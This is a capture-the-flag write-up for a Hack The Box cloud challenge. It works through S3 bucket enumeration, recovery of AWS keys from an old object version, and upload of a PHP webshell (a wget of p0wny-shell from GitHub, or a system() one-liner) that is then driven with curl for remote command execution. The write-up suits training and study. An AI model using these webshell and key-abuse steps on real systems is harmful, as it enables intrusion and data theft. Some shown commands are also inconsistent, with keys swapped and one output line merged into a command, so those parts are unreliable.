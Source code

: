 # Unveiled (Cloud Challenge)



## Challenge Description
Category: Cloud

Difficulty: Easy

Points: 1000



## Strategy
The premise revolving around this challenge was to upload a PHP webshell to an openly-accessible AWS S3 Bucket and obtain RCE for the flag.

Connect to the HTB VPN via `sudo openvpn <vpntoken>.ovpn`
Add `unveiled.htb` to your `/etc/hosts` file for local DNS resolution.

Running nmap to the target:
```text
Nmap scan report for unveiled.htb (10.129.253.25)
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Travel to Planet Red
|_http-server-header: Apache/2.4.41
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsing to the website at `http://unveiled.htb` and viewing the source (CTRL + U), we discover a hidden comment detailing another virtual host of `s3.unveiled.htb` which we add to our `/etc/hosts` file and a username of `galen` as shown below.
![unveiled_1](images/unveiled_1.png)
```text
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<!-- Last updated Tue 20 Jun 2023 02:39:53 PM by galen-->
<script src="http://s3.unveiled.htb/unveiled-backups/main.js"/>
```

AWS Endpoint Function Workaround (Added https://github.com/aws/aws-cli/pull/8006/commits/e34caf506696db97c24d40da5a45e3e5b3bc5cb2)
Make sure you are running the latest version of `aws-cli` so you don't have to type the `--endpoint-url` every time or use the following:
```sh
$ export AWS_ENDPOINT_URL=http://s3.unveiled.htb
function aws() {
	export AWS_DEFAULT_OUTPUT=yaml 
	if [ -z "$AWS_ENDPOINT_URL" ]
	then
		command aws "$@"
	else
		command aws "$@" --endpoint-url "$AWS_ENDPOINT_URL"
	fi
}
```

List buckets accessible:
```sh
$ aws s3api list-buckets
Buckets:
- CreationDate: '2023-07-14T21:12:16+00:00'
  Name: unveiled-backups
- CreationDate: '2023-07-14T21:12:17+00:00'
  Name: website-assets
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a

$ aws s3api list-objects-v2 --bucket 'unveiled-backups'
Contents:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  Key: index.html
  LastModified: '2023-07-14T21:12:18+00:00'
  Size: 4495
  StorageClass: STANDARD
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  Key: main.tf
  LastModified: '2023-07-14T21:12:19+00:00'
  Size: 1107
  StorageClass: STANDARD

$ aws s3 ls s3://unveiled-backups/
2023-07-14 17:12:18       4495 index.html
2023-07-14 17:12:19       1107 main.tf
```

Download Files:
```sh
$ aws s3 cp --recursive s3://unveiled-backups .
or ..
$ aws s3 sync s3://unveiled-backups/ .
download: s3://unveiled-backups/main.tf to ./main.tf
download: s3://unveiled-backups/index.html to ./index.html
```

List Bucket Access Control List (ACL):
```sh
$ aws s3api get-bucket-acl --bucket unveiled-backups
Grants:
- Grantee:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
    Type: CanonicalUser
  Permission: FULL_CONTROL
Owner:
  DisplayName: webfile
  ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
```

Unintended solution (upload a webshell without creds):
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Get AWS S3 Bucket Version Control History:
```sh
$ aws s3api list-object-versions --bucket unveiled-backups
Versions:
- ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
  IsLatest: true
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4495
  StorageClass: STANDARD
  VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7
- ETag: '"3596df2e55e9786e11a09c32ae21c33c"'
  IsLatest: false
  Key: index.html
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 4438
  StorageClass: STANDARD
  VersionId: ab1f42c7-0c8d-4a5b-8d70-05d95b71c937
- ETag: '"9c9e9d85b28ce6bbbba93e0860389c65"'
  IsLatest: true
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1107
  StorageClass: STANDARD
  VersionId: e760e5b7-cde9-485e-9a6b-de15e1694886
- ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
  IsLatest: false
  Key: main.tf
  LastModified: '2023-07-14T22:32:50+00:00'
  Owner:
    DisplayName: webfile
    ID: 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
  Size: 1167aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
```

Get Old Revision of Files:
```sh
$ aws s3api get-object --bucket unveiled-backups --key main.tf --version-id 2660dd61-14c4-47e4-ad0e-931c14da88a9 main.tf.old
AcceptRanges: bytes
ContentLength: 1167
ContentType: binary/octet-stream
ETag: '"4947c773e44f5973a9c3d37f24cb8e63"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 2660dd61-14c4-47e4-ad0e-931c14da88a9

$ aws s3api get-object --bucket unveiled-backups --key index.html --version-id 00c4f891-631b-48a8-a958-e01b196af4f7 index.html.old
AcceptRanges: bytes
ContentLength: 4495
ContentType: text/html
ETag: '"3460d1a10fd1e53c6dbc1f8acd4c3a1b"'
LastModified: '2023-07-14T22:32:50+00:00'
Metadata: {}
VersionId: 00c4f891-631b-48a8-a958-e01b196af4f7

$ head ./unveiled-backups-old/main.tf
variable "aws_access_key"{
  default = "AKIA6CFMOGFLAHOPQTMA"
}
variable "aws_secret_key"{
  default = "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"
}
```

Configure AWS-CLI with new AWS secrets and check if we can access the private S3 bucket of `website-assets`.
```sh
$ aws configure
AWS Access Key ID: tLK3S3CNsXfj0mjPsIH2iCh5odYHMPDwSVxn7CB5
AWS Secret Access Key: AKIA6CFMOGFLAHOPQTMA
Default region name [us-east-1]:
Default output format [None]:

$ aws sts get-caller-identity
Account: '683633011377'
Arn: arn:aws:iam::683633011377:user/will
UserId: AKIAIOSFODNN7DXV3G29

$ aws s3 ls s3://website-assets
2023-07-14 18:32:49      91790 background.jpg
2023-07-14 18:32:49       4372 index.html
```

Upload webshell with new access keys:
```sh
$ wget https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
or ...
$ echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php

$ aws s3api put-object --bucket website-assets --key shell.php --body shell.php
or ...
$ aws s3 cp shell.php s3://website-assets
```

Access webshell:
```sh
$ firefox http://unveiled.htb/shell.php
```
Can also fetch the flag via curl:
```sh
curl -s -X POST 'http://unveiled.htb/shell.php?feature=shell' --data 'cmd=cat /var/www/flag.txt' | jq -r '.stdout'|base64 -d
HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}
```

Flag: `HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}`
